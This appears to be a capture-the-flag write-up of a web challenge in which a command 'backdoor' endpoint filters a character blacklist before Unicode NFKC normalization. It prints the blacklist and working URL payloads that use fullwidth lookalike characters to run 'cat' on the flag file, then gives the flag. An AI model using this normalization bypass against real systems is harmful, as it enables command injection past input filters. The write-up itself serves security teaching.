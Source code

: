 ## Solve:

- [ ] Set of blacklisted characters (not allowed) <br/>
  <sup>```blacklist = ["~","!","@","#","$","%","^","&","*","(",")","_","-","+","{","}","]","[","|","\\","|",";",",",".","<",">","?","/","`",":","\""]```</sup>

<br/>

- [ ] If the characters introduced are not in the blacklist, the command given is **normalized** <br/>
  ```norm = unicodedata.normalize("NFKC", cmd)```

<br/>

- [ ] We can request regular commands, but in order to get the flag we need to bypass the blacklist. <br/>
    We do this by using special characters in **Unicode** that are the equivalent of normal characters after **normalization**. <br/>
    We see some examples here: https://lazarv.com/posts/unicode-normalization-vulnerabilities/

<br/>

- [ ] After a series of commands, we find out where is the flag
  ```bash
  http://206.189.59.199:8004/backdoor?cmd=ls 
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%B9%A1
  ```
  ![asterix](https://user-images.githubusercontent.com/93029180/208316737-a87ab1f1-678d-47ba-b01b-557a2ca9a6e6.png)
  
  Hint says the flag is temporary (in `tmp` directory)
  ```bash
  [http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%B9%A1](http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%BC%8Ftmp%EF%BC%8Fflag%EF%B9%A1)
  ```
  ![flag](https://user-images.githubusercontent.com/93029180/208316828-d7dce247-f3f2-4a5e-a48e-2d30d207acb9.png)

<br/>

## Flag:
`flag{normalizing_the_input_4_the_bypass}`
